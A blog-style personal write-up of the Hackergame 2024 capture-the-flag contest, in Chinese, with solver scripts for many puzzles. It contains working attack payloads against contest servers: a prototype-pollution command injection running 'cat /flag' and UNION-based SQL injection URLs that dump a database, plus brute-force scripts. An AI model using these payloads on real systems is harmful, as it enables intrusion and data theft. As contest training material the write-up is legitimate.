# Y1yan's Hackergame 2024 个人题解

## 前言
本文同时发布于 [我的博客](https://blog.y1yan.com/index.php/archives/39/)，欢迎到我的博客进行IP1的加（

> 
>
> 好玩喵，下次还来玩喵\~
> 
> 另外，多图预警喵（



## 1. 签到
这道题要求输入多个语言的启动，具体内容已经在 `placeholder` 中给出了。因此这里直接使用js脚本取出来再填进去。

（话说好几种语言都是不同的冒号，处理起来麻烦了一些）
```Javascript
a=document.getElementsByClassName("input-box");
console.log(a[1]);
a = Array.from(a);
a.forEach((e)=>{
    b = e.getAttribute("placeholder").split(': ');
    b = b[b.length-1];
    b = b.split('；');
    b = b[b.length-1];
    b = b.split('：');
    b = b[b.length-1];
    b = b.split('：');
    b = b[b.length-1];
    b = b.split('：');
    b = b[b.length-1];
    b = b.split('：');
    b = b[b.length-1];
    console.log(b);
    e.value = b;
});
```

## 2. 喜欢做签到的 CTFer 你们好呀

还是有点曲折的（

先搜索 `nebula 招新` 找到 [NEBULA 招新的 Github 仓库](https://github.com/Nebula-CTFTeam/Recruitment-2024)，但这里什么有用的东西都没有，就从仓库的创建者入手。找到 [唯一一个 commit 的提交者](https://github.com/AvavaAYA)，发现他的博客网址中有 [nebuu.la](nebuu.la)， 于是访问，看见一个类似终端的网页。输入 help 能看见所有能输入的命令，然后试出来输入 env 可以看见一个flag。



之后试了一阵子没找到第二个 flag，之后试了下整个页面都是纯前端渲染，没有后端的部分。于是直接 f12 查看源代码，然后 ctrl+f 搜索 flag，倒是很快就找到第二个 flag 了。把 atob... 的那些代码粘贴到控制台运行一下就有了。



## 猫咪问答（Hackergame 十周年纪念版）

#### 1. 在 Hackergame 2015 比赛开始前一天晚上开展的赛前讲座是在哪个教室举行的？

搜索 Hackergame 2015 可以找到对应的比赛的公告存档，再页面可以看到对应的教室 3A204。

#### 2. 众所周知，Hackergame 共约 25 道题目。近五年（不含今年）举办的 Hackergame 中，题目数量最接近这个数字的那一届比赛里有多少人注册参加？

上 Hackergame 的 Github 把历年的题数都数一遍，发现最接近的是2019年，然后在 https://lug.ustc.edu.cn/news/2019/12/hackergame-2019/ 得知注册人数是 2682。

#### 3. Hackergame 2018 让哪个热门检索词成为了科大图书馆当月热搜第一

在 [2018 年猫咪问答的官方题解](https://github.com/ustclug/hackergame2018-writeups/blob/master/official/ustcquiz/README.md) 中可以看到：

`在中国科大图书馆中，有一本书叫做《程序员的自我修养:链接、装载与库》，请问它的索书号是？
打开中国科大图书馆主页，直接搜索“程序员的自我修养”即可。`

不难推测出本题答案。

#### 4. 在今年的 USENIX Security 学术会议上中国科学技术大学发表了一篇关于电子邮件伪造攻击的论文，在论文中作者提出了 6 种攻击方法，并在多少个电子邮件服务提供商及客户端的组合上进行了实验？

首先搜索进入 USENIX 的官网，之后搜索 USTC， email 等关键词就可以找到对应的论文：[FakeBehalf: Imperceptible Email Spoofing Attacks against the Delegation Mechanism in Email Systems](https://www.usenix.org/system/files/usenixsecurity24-ma-jinrui.pdf)

之后，把论文下载下来，丢给 ChatGPT：



但这个并不是正确答案。实际上，客户端还多了一个：Web interface。因此，实际答案是： `(20+1)*16 = 336`



#### 5. 10 月 18 日 Greg Kroah-Hartman 向 Linux 邮件列表提交的一个 patch 把大量开发者从 MAINTAINERS 文件中移除。这个 patch 被合并进 Linux mainline 的 commit id 是多少？

首先找到 Linux 内核的 git 仓库 https://git.kernel.org/

根据题目，直接右上角搜索 MAINTAINERS https://git.kernel.org/?q=MAINTAINERS


把每一个都点进去，查找 10 月18 日附近 Greg Kroah-Hartman 的相关内容，不难发现对应的 commit。


点进去就是对应的 commit 了。


#### 6. 大语言模型会把输入分解为一个一个的 token 后继续计算，请问这个网页的 HTML 源代码会被 Meta 的 Llama 3 70B 模型的 tokenizer 分解为多少个 token？

#### 正确但错误的做法

搜索 Llama 的 github 仓库，可以找到 这个 [Llama 的仓库](https://github.com/meta-llama/llama-models) 。~~点进去就可以下载到 Llama 3 的模型了~~。

但直接 clone 还是有 tokenizer 的。于是写改一改下面的代码：

```Python
# 上面是原封不动的 llama-models-main/models/llama3/api/tokenizer.py

doctext = '''
这里是网页的 html 源代码
'''

if __name__ == '__main__':
    tk = Tokenizer(model_path='./tokenizer.model')
    # 不懂 bos 和 eos 是干什么的，就都试一遍（
    res = tk.encode(s=doctext, bos=False, eos=False)
    print(len(res))
    res = tk.encode(s=doctext, bos=False, eos=True)
    print(len(res))
    res = tk.encode(s=doctext, bos=True, eos=False)
    print(len(res))
    res = tk.encode(s=doctext, bos=True, eos=True)
    print(len(res))

```

可惜得出的结果并不正确，我也不知道为什么（


#### 错误但正确的解法

直接爆破，反正结果应该不会和 1900 差太多：

```Python
import requests
import datetime
import time

num = 1700
while True:
    time.sleep(1)
    url = 'http://202.38.93.141:13030/'
    cookies = {'session': '<Session>'}
    data = {
        "q1": "3A204",
        "q2": "2682",
        "q3": "程序员的自我修养",
        "q4": "336",
        "q5": "6e90b6",
        "q6": str(num)
    }
    response = requests.post(url, data=data, cookies=cookies)
    #print(response.text)
    if "达到 100 分获取第二个 flag" in response.text:
        print(str(num), "❌")
    else:
        print(str(num), "✅")
        break
    num += 1
    if num > 2000:
        break
```


## 打不开的盒

把题目的模型下载下来，然后 blender 打开，进入编辑模式，把上面的点全删了就能看见了。


## 每日论文太多了！

这道题我一定要吐槽下：



这个提示怎么不早点放啊，当时这道题没什么思路，我是把作者的 Github， Huggingface 和两个博客都翻遍了，都没有找到。全都找完了才告诉我只用看 PDF 就行了。

~~顺便好奇有多少人给作者发了邮件（~~

最后是在打开论文后，Ctrl+F 搜了一下 flag，发现了 flag here。之后直接 WPS打开，把图片移走就可以看见 flag 了。



## 比大小王

直接 F12 看源码，能看到题目的运行逻辑。

然后写出脚本：

```Javascript
submit(state.values.map((arr)=> arr[0] > arr[1] ? '>' : '<'));
```

注意不要在倒计时还没开始的时候就按回车，否则就会时间穿越（

## 旅行照片 4.0

#### 问题 1: 照片拍摄的位置距离中科大的哪个校门更近？

只有 4x4=16 种可能，直接爆破（

#### 问题 2: 话说 Leo 酱上次出现在桁架上是……科大今年的 ACG 音乐会？活动日期我没记错的话是？（格式：YYYYMMDD）

搜到 B 站主页，发现上次直播就是科大今年的 ACG 音乐会。直接看上次直播的日期就行了。

#### 问题 3: 这个公园的名称是什么？（不需要填写公园所在市区等信息）

照片的垃圾桶放大可以看见“六安园林”的字样。

总之我是直接问 ai 六安市所有的公园都有哪些，然后全试了一遍（

#### 问题 4: 这个景观所在的景点的名字是？（三个汉字）

直接百度识图，能找到一大堆相关的网页，不难总结出位置。

#### 问题 5 - 6

不会，摸了（

~~没想到 google 能直接识图出来~~

## 不宽的宽字符

~~最开始开以为是要用到控制字符什么的，结果发现根本不用（~~

先把代码下载到本地 Visual Studio 调试一下。

发现运行到这里就运行不下去了，哪怕是输入正确的路径。

进一步点进去查看可以看到，wchar 一个字符是 2 字节，但 char 只有一字节，所以中间会空出来一部分位置。

因此想到，可以直接把对应的变量用 char 修改成我们需要的值，然后再用 wchar 看一下里面的内容是什么就行了。因为在 wchar 里面会有很多 0，因此会自动把后面的内容忽略，就不用管后面加的那些字符了。



## Node.js is Web Scale

又是一道利用到搜索引擎的题（

在 Javascript 中，存在着 __proto__ 这个东西。在 Javascript 的对象中去根据 key 取值的时候，如果这个对象自身没有这个 key，就会尝试去父类中去找。而一个对象的 __proto__ 就是这个对象的父类。

因此这道题可以直接构造
```Javascript
store.__proto__.xxx = 'cat /flag';
```
之后再通过
```
/execute?cmd=xxx
```
就可以拿到 flag 了。

## PaoluGPT

#### 千里挑一
从这道题的小题目可以看出，flag 应该就藏在这么多对话记录的其中一个里。因此直接写一个脚本扫一遍就可以了。
```Python
import requests
import re
import time

url = 'https://chal01-kpqsf2ts.hack-challenge.lug.ustc.edu.cn:8443/list'
cookies = {
    '_ga':'GA1.1.70803825.1729666822',
    '_ga_R7BPZT6779':'GS1.1.1730533581.4.1.1730535251.58.0.654533782',
    'session': '<session>'
}
response = requests.get(url, cookies=cookies)

pat_geturls = re.compile(r'<li><a href="/view\?conversation_id=(.*?)">')

urls = pat_geturls.findall(response.text)

cnt = 0
for cid in urls:
    url = 'https://chal01-kpqsf2ts.hack-challenge.lug.ustc.edu.cn:8443/view?conversation_id='+cid
    data = {'conversation_id': cid}
    response = requests.get(url, cookies=cookies)
    if "flag" in response.text:
        print(response.text)
        print(str(cnt), "✅")
        break
    else:
        print(str(cnt), "❌")
    time.sleep(0.5)
    cnt += 1
```
感觉这里的 `time.sleep(0.5)` 可能没什么必要，不过感觉还是写爬虫的好习惯，还是加上了。

#### 窥视未知

这里就得看看源码了。从源码来看，这应该是一道 sql 注入题。我是从 [这个网址](https://xz.aliyun.com/t/8627) 来学着注入的。

先获随便点一个聊天记录，燃火获取表的相关信息：

```
https://chal01-wext3czh.hack-challenge.lug.ustc.edu.cn:8443/view?conversation_id=8b8678d1-55ef-4132-b511-bb69ae29e779%27%20union%20select%201,sql%20from%20sqlite_master%20where%20type=%27table%27--
```

得出：
```sql
CREATE TABLE messages (id text primary key, title text, contents text, shown boolean)
```

得知表中有一个 shown 项，那自然是要查查它等于 false 时的内容了

```
https://chal01-wext3czh.hack-challenge.lug.ustc.edu.cn:8443/view?conversation_id=8b8678d1-55ef-4132-b511-bb69ae29e779%27%20union%20select%201,id%20from%20messages%20where%20shown%20=%20false--
```


得到结果

点进去：



我当时的第一反应是：我尼玛玩我呢，这就是你的 shown=false ？

于是怒而直接把数据库里的东西全输出出来：

https://chal01-wext3czh.hack-challenge.lug.ustc.edu.cn:8443/view?conversation_id=8b8678d1-55ef-4132-b511-bb69ae29e779%27%20union%20select%201,group_concat(contents)%20from%20messages%20--

然后直接 Ctrl+F



然后这时才想起来这道题在有flag 的页面前面加了一大堆换行（

用这个方法也是可以直接拿到 2 个 flag 的。

## 强大的正则表达式

#### Easy
第一问要求输出一个正则表达式，匹配出可以被 16 整除的数字。因为一个数除 4 的余数只跟其最后 4 位有关，因此不难穷举出所有情况。（脚本没了，只剩下这个字符串）：

```Python
regex_string = r'(0|1|2|3|4|5|6|7|8|9)*(0000|0016|0032|0048|0064|0080|0096|0112|0128|0144|0160|0176|0192|0208|0224|0240|0256|0272|0288|0304|0320|0336|0352|0368|0384|0400|0416|0432|0448|0464|0480|0496|0512|0528|0544|0560|0576|0592|0608|0624|0640|0656|0672|0688|0704|0720|0736|0752|0768|0784|0800|0816|0832|0848|0864|0880|0896|0912|0928|0944|0960|0976|0992|1008|1024|1040|1056|1072|1088|1104|1120|1136|1152|1168|1184|1200|1216|1232|1248|1264|1280|1296|1312|1328|1344|1360|1376|1392|1408|1424|1440|1456|1472|1488|1504|1520|1536|1552|1568|1584|1600|1616|1632|1648|1664|1680|1696|1712|1728|1744|1760|1776|1792|1808|1824|1840|1856|1872|1888|1904|1920|1936|1952|1968|1984|2000|2016|2032|2048|2064|2080|2096|2112|2128|2144|2160|2176|2192|2208|2224|2240|2256|2272|2288|2304|2320|2336|2352|2368|2384|2400|2416|2432|2448|2464|2480|2496|2512|2528|2544|2560|2576|2592|2608|2624|2640|2656|2672|2688|2704|2720|2736|2752|2768|2784|2800|2816|2832|2848|2864|2880|2896|2912|2928|2944|2960|2976|2992|3008|3024|3040|3056|3072|3088|3104|3120|3136|3152|3168|3184|3200|3216|3232|3248|3264|3280|3296|3312|3328|3344|3360|3376|3392|3408|3424|3440|3456|3472|3488|3504|3520|3536|3552|3568|3584|3600|3616|3632|3648|3664|3680|3696|3712|3728|3744|3760|3776|3792|3808|3824|3840|3856|3872|3888|3904|3920|3936|3952|3968|3984|4000|4016|4032|4048|4064|4080|4096|4112|4128|4144|4160|4176|4192|4208|4224|4240|4256|4272|4288|4304|4320|4336|4352|4368|4384|4400|4416|4432|4448|4464|4480|4496|4512|4528|4544|4560|4576|4592|4608|4624|4640|4656|4672|4688|4704|4720|4736|4752|4768|4784|4800|4816|4832|4848|4864|4880|4896|4912|4928|4944|4960|4976|4992|5008|5024|5040|5056|5072|5088|5104|5120|5136|5152|5168|5184|5200|5216|5232|5248|5264|5280|5296|5312|5328|5344|5360|5376|5392|5408|5424|5440|5456|5472|5488|5504|5520|5536|5552|5568|5584|5600|5616|5632|5648|5664|5680|5696|5712|5728|5744|5760|5776|5792|5808|5824|5840|5856|5872|5888|5904|5920|5936|5952|5968|5984|6000|6016|6032|6048|6064|6080|6096|6112|6128|6144|6160|6176|6192|6208|6224|6240|6256|6272|6288|6304|6320|6336|6352|6368|6384|6400|6416|6432|6448|6464|6480|6496|6512|6528|6544|6560|6576|6592|6608|6624|6640|6656|6672|6688|6704|6720|6736|6752|6768|6784|6800|6816|6832|6848|6864|6880|6896|6912|6928|6944|6960|6976|6992|7008|7024|7040|7056|7072|7088|7104|7120|7136|7152|7168|7184|7200|7216|7232|7248|7264|7280|7296|7312|7328|7344|7360|7376|7392|7408|7424|7440|7456|7472|7488|7504|7520|7536|7552|7568|7584|7600|7616|7632|7648|7664|7680|7696|7712|7728|7744|7760|7776|7792|7808|7824|7840|7856|7872|7888|7904|7920|7936|7952|7968|7984|8000|8016|8032|8048|8064|8080|8096|8112|8128|8144|8160|8176|8192|8208|8224|8240|8256|8272|8288|8304|8320|8336|8352|8368|8384|8400|8416|8432|8448|8464|8480|8496|8512|8528|8544|8560|8576|8592|8608|8624|8640|8656|8672|8688|8704|8720|8736|8752|8768|8784|8800|8816|8832|8848|8864|8880|8896|8912|8928|8944|8960|8976|8992|9008|9024|9040|9056|9072|9088|9104|9120|9136|9152|9168|9184|9200|9216|9232|9248|9264|9280|9296|9312|9328|9344|9360|9376|9392|9408|9424|9440|9456|9472|9488|9504|9520|9536|9552|9568|9584|9600|9616|9632|9648|9664|9680|9696|9712|9728|9744|9760|9776|9792|9808|9824|9840|9856|9872|9888|9904|9920|9936|9952|9968|9984)'
```

虽然这个正则没有考虑到 n \< 10000 的情况，但生成数字的范围很大，即使是重复 40 次，出现一个小于 10000 的数的概率也是微乎其微的，因此可以直接使用。

#### Medium

这道题也是搜了一些资料，发现了正则表达式和有限状态机的互转。具体原理已经有很多其他大佬的 WP 写过了，这里就只放一段我当时写的脚本吧，可以求任意数字是否可以被整除的正则表达式。

```Python
ADDITION_CHARACTER = '|'

def genemat(n):
    m = matrix = [['' for _ in range(n)] for _ in range(n)]
    for i in range(n):
        t = i * (n//2+1) % n
        m[i][t] = '0'
        m[(i+1)%n][t] = '1'
    return m

def mul(a, b):
    if a != '' and b != '':
        return a + b
    elif a != '' and b == '':
        return a
    elif a == '' and b != '':
        return ''
    else:
        return ''

def add(a, b):
    if a != '' and b != '':
        return '(' + a + ADDITION_CHARACTER + b + ')'
    elif a != '' and b == '':
        return a
    elif a == '' and b != '':
        return b
    else:
        return ''


N = 13
m = genemat(N)

for k in range(N-1, 0, -1):
    if(m[k][k] != ''):
        for i in range(k):
            m[k][i] = mul(m[k][i], '('+m[k][k]+')*')
        m[k][k] = ''
        
    for i in range(k):
        if(m[i][k] != ''):
            for j in range(k):
                m[i][j] = add(m[i][j], mul(m[k][j], m[i][k]))
        m[i][k] = ''
print(m[0][0])
```

#### Hard

可能有点思路吧，但不会 CRC，因此，过！

## 惜字如金

#### 第一题
直接肉眼补全就行了

#### 2-3
不会，过！

## 优雅的不等式

#### Easy
直接输入：

`4*((1-x**2)**(1/2)-(1-x))`
`4*(1-x**2)**(1/2)-4*(1-x**2)`

拿到第一个 flag

#### Hard
这道题再找资料的时候看到了 [科普】如何优雅地“注意到”关于e、π的不等式](https://zhuanlan.zhihu.com/p/669285539)  这篇文章。于是可以参考他给出的形式写出代码：

```Python
from pwn import *
import sympy as sp

class Solver():
    now_n = 75
    cnt = 1
    def solve_eqn(self, p, q):
        p = sp.Integer(p)
        q = sp.Integer(q)
        for n in range(self.now_n, 100):
            x, a, b, c = sp.symbols('x a b c')
            expression = x ** n * (1 - x) ** n * (a + b * x + c * x ** 2) / ( 1 + x ** 2)
            integral_result = sp.integrate(expression, (x, 0, 1)).simplify()
            eqns = [
                integral_result.coeff(sp.pi, 1) - 1,
                integral_result.coeff(sp.ln(2), 1),
                integral_result - integral_result.coeff(sp.pi, 1) * sp.pi - integral_result.coeff(sp.ln(2), 1) * sp.ln(2) + p / q
            ]
            solution = sp.solve(eqns, (a, b, c))
            try:
                cof = [sp.Rational(str(solution[_])) for _ in solution]
            except:
                continue
            ret_str = 'x**{}*(1-x)**{}*({}+({})*x+{}*x**2)/(1+x**2)'.format(n, n, cof[0], cof[1], cof[2])
            ret_expr = sp.parsing.sympy_parser.parse_expr(ret_str)
            ret_int_res = sp.integrate(ret_expr, (x, 0, 1))
            domain = sp.Interval(0, 1)
            if sp.solveset(ret_expr >= 0, x, domain) == domain:
                self.cnt += 1
                self.now_n = n
                return ret_str


r = remote('202.38.93.141', 14514)
r.recvuntil(b'Please input your token: ')
r.sendline(b'<token>')


res = r.recvline().decode() # Please prove that pi>=2
r.recvuntil(b'Enter the function f(x): ')
r.sendline('4*((1-x**2)**(1/2)-(1-x))'.encode())

solver = Solver()

res = r.recvline().decode() # Q.E.D.
res = r.recvline().decode() # Please prove that pi>=8/3
print('Server >', res, end='')
r.recvuntil(b'Enter the function f(x): ')
split1 = res.split('=')[1].split('/')
nums = res.split('=')[1].split('/')
ans = solver.solve_eqn(int(nums[0]), int(nums[1]))
r.sendline(ans.encode())
print('Server >', r.recvline().decode(), end='')
print('Server >', r.recvline().decode(), end='')
print('Server >', r.recvline().decode(), end='')

for i in range(38):
    time_begin = time.time()
    res = r.recvline().decode() # Please prove that pi>=2
    print('Server >', res, end='')
    r.recvuntil(b'Enter the function f(x): ')
    split1 = res.split('=')
    split2 = split1[1]
    nums = [int(i) for i in split2.split('/')]
    ans = solver.solve_eqn(int(nums[0]), int(nums[1]))
    print('Input >', ans, end='')
    r.sendline(ans.encode())
    res = r.recvline().decode() # Q.E.D.
    print('Server >', res)
    print('Solved >', i, 'in: ', time.time() - time_begin)
    
while(True):
    res = r.recvline().decode()
    print(res)
```

这个脚本我在本地是能跑通的，但在解题时，最多只能解到 30 多，再之后就会因积分时间太长而被 kill。

试了试改成其他的形式，但数学功底不过关，积分求解都很慢，于是只好放弃。

## 无法获得的秘密

题目是有 VNC 给我们用的，因此最容易想到的想法就是把文件做成图片，然后把图片截出来进行解码。

在运行环境中最大屏幕分辨率可以达到 `1920x1200`，位深为 `24 bit`。因此一帧最大传输的数据量为 `1920x1200x24/8 = 6192000 bit ≈ 6.5 MB` 。而要传输的文件只有 512KB ，绰绰有余。不过由于传输画面的压缩问题，实际上一帧传输的数据量会小很多。

最开始想的办法是多做几张图片，比如把 2x2=4 个像素表示 1bit 的信息，虽然要多截几张图，但可以保证一定的冗余。

直到我发现了这个，，


把压缩率拉到最小，再去看就会发现传输的画面是完全不压缩的，每个像素点在运行环境中是多少，传过来再截图还是多少。这样再做就轻松多了。

最后手撕了一下 BMP，得到了下面的代码。其中还包含一个自己生成文件测试的函数。

```Python
import PIL.Image as Image
import os
from PIL import Image
from numpy import average, dot, linalg
import time
import hashlib
import binascii

TEST_FILE_NAME = 'testfile.bin'
IMAGES_CNT = 1

